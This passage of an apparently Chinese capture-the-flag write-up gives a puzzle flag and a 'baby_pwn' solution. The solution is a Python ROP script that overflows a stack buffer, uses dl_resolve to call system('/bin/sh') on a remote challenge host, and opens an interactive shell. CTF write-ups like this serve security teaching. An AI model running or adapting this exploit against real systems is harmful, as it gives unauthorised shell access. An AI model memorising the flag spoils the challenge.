 Question 4:

![q4](images/puzzles_q4.png)

拼接得flag

flag{01924dd7-1e14-48d0-9d80-fa6bed9c7a00}



## Pwn

### baby_pwn

简单栈溢出，直接dl_resolve解

```
from roputils import *
import pwn as pwn

r = pwn.remote('da61f2425ce71e72c1ef02104c3bfb69.kr-lab.com', 33865)

fpath = sys.argv[1]
offset = int(sys.argv[2])

rop = ROP(fpath)
addr_bss = rop.section('.bss')

buf = rop.retfill(offset)
buf += rop.call('read', 0, addr_bss, 100)
buf += rop.dl_resolve_call(addr_bss+20, addr_bss)

p = Proc(rop.fpath)
p.write(p32(len(buf)) + buf)
r.send(p32(len(buf)) + buf)
print "[+] read: %r" % p.read(len(buf))

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
buf += rop.dl_resolve_data(addr_bss+20, 'system')
buf += rop.fill(100, buf)

p.write(buf)
r.send(buf)
r.interactive()
p.interact(0)
```
